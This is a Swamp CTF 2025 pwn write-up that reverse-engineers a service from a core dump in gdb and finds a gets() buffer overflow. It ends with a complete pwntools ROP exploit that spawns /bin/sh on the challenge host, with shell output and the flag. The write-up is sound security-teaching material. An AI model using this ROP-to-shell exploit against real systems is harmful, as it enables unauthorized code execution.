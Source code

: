 ```yaml
---
title: Greeting as a Service
date: 2025-03-30T17:34:37+03:00
description: Writeup for Greeting as a Service [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

A friend of mine set up a greeting as a service server. He gave me a core dump of it to play around with but won't give me source. Find anything useful?

## Intuition

We get a coredump of the remote service. A coredump can't be explored by executing instructions, but the memory can be examined.
Based on the backtrace, I guess we are in some kind of `main()` function:

```
$ gdb -q -core ./coredump_GAAS
pwndbg> bt
#0  0x00000000004011a3 in ?? ()
#1  0x00007ffff7de8083 in ?? ()
#2  0x00007ffff7ffc620 in ?? ()
#3  0x00007fffffffde68 in ?? ()
#4  0x0000000100000000 in ?? ()
#5  0x00000000004011a3 in ?? ()
#6  0x0000000000401240 in ?? ()
#7  0xbdeebaa290c7ef1c in ?? ()
#8  0x0000000000401090 in ?? ()
#9  0x00007fffffffde60 in ?? ()
#10 0x0000000000000000 in ?? ()
```

This guess is purelt based on the return addresses. I think from number 4 onwards it's just random values found on the stack, but the addresses 1 to 3 are probably entry functions from libc, like `libc_start_main()`.
So that leaves address 0 to be the `main()` function. Let's disassemble it:

```
pwndbg> x/33i $rip
=> 0x4011a3:	endbr64 
   0x4011a7:	push   rbp
   0x4011a8:	mov    rbp,rsp
   0x4011ab:	sub    rsp,0x10
   0x4011af:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404050
   0x4011b6:	mov    ecx,0x0
   0x4011bb:	mov    edx,0x2
   0x4011c0:	mov    esi,0x0
   0x4011c5:	mov    rdi,rax
   0x4011c8:	call   0x401080
   0x4011cd:	mov    rax,QWORD PTR [rip+0x2e6c]        # 0x404040
   0x4011d4:	mov    ecx,0x0
   0x4011d9:	mov    edx,0x2
   0x4011de:	mov    esi,0x0
   0x4011e3:	mov    rdi,rax
   0x4011e6:	call   0x401080
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
   0x401233:	mov    eax,0x0
   0x401238:	leave  
   0x401239:	ret
```

We can notice 5 calls, let's break them down:

- The first two calls, at `0x4011c8`, and `0x4011e6` are to the same address: `0x401080`. Additionally, they function called seems to have the following signature, based on loaded registers: `void func(long? a, int b, int c, int d)`. Additionally, `b` is always 0, `c` is always 2, `d` is always 0. We can see by printing the address where it takes `a` from, that it is most likely a file structure:

```
pwndbg> x/10gx 0x404050
0x404050:	0x00007ffff7fb0980	0x0000000000000000
0x404060:	0x0000000000000000	0x0000000000000000
0x404070:	0x0000000000000000	0x0000000000000000
0x404080:	0x0000000000000000	0x0000000000000000
0x404090:	0x0000000000000000	0x0000000000000000
pwndbg> x/10gx 0x00007ffff7fb0980
0x7ffff7fb0980:	0x00000000fbad2088	0x0000000000000000
0x7ffff7fb0990:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09a0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09b0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09c0:	0x0000000000000000	0x0000000000000000
```

Very often I have seen `fbad...` inside the flags field of `FILE` objects. So I realized this is probably `stdin` or `stdout` from libc. Then I thought what function signature that takes a `FILE` pointer in the first slot could be called here.
Given almost all pwn challenges disable buffering on `stdout` and `stdin` before the actuall program, I realized this is probably `setvbuf`: `int setvbuf(FILE *stream, char *buf, int mode, size_t size)`.

It fits perfectly and `buf` can be NULL.

Additionally, another hint that this (and actually the others too) are libc functions is the fact that disassembling the address of the function it calls yields instructions that look **a lot** like they're from the PLT section of a binary:

```
pwndbg> x/3i 0x401080
   0x401080:	endbr64 
   0x401084:	bnd jmp QWORD PTR [rip+0x2f9d]        # 0x404028
   0x40108b:	nop    DWORD PTR [rax+rax*1+0x0]
```

Continuing the analysis, we can see an array of 10 bytes is initialized with 0 next:

```
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0 ; <--- 8 bytes
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0  ; <--- 2 bytes
```

Then this pattern of calls:

```
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
```

We can notice function `0x401060` takes only one string argument. The argument is:

```
pwndbg> x/1gx 0x402004
0x402004:	Cannot access memory at address 0x402004
```

Uhh? That's weird. What are the mappings:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x401000           0x402000 r-xp     1000   1000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x403000           0x404000 r--p     1000   2000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x404000           0x405000 ---p     1000   3000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
```

Where is that???? Well here we did even more guesswork, where I remembered I had seen cases before where the read-only segment of memory is doubled in a binary,
with it being both at `0x403000` and `0x402000`. So I said "well let's check 0x403004" then:

```
pwndbg> x/1gx 0x403004
0x403004:	0x2073692074616857
pwndbg> x/1s 0x403004
0x403004:	"What is your name?"
```

Great! This is also the thing printed when you connect to the remote, without and newlines. So then `0x401060` MUST be `printf()`.

All that is left now is figuring out what `0x401070` is. Judging from the fact that it takes only one argument, a buffer pointer (the one that was initialized earlier), We thought it MUST be `gets()`, because the remote target is waiting for input at this point.

So we have a simple buffer overflow and we can ROP chain. Lots of gadgets to choose from as well.

## Solution

We reuse the ideas from the [HTB Cyber Apocalypse 2025 Crossbow challenge](https://dothidden.xyz/cyber_apocalypse_ctf_2025/crossbow/).

Syscall a `read()`, insert `/bin/sh`, syscall `execve()`, win.

```py
#!/usr/bin/env python3

from pwn import *

pop_rdi = 0x0000000000401194
pop_rsi = 0x0000000000401196
pop_rax = 0x0000000000401188
pop_rdx = 0x0000000000401198
syscall = 0x0000000000401190
data_addr = 0x404060
gets = 0x401070

payload = b"a" * 0xa + b"b" * 8 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(data_addr) + p64(gets) + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(0) + p64(syscall)

fake_execve = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00"

target = remote("chals.swampctf.com", 40003)
target.sendline(payload)
target.sendline(fake_execve)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40003: Done
[*] Switching to interactive mode
What is your name?Hello, aaaaaaaaaabbbbbbbb\x88\x11!
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{t1m3_t0_s@y_g00dby3}
```

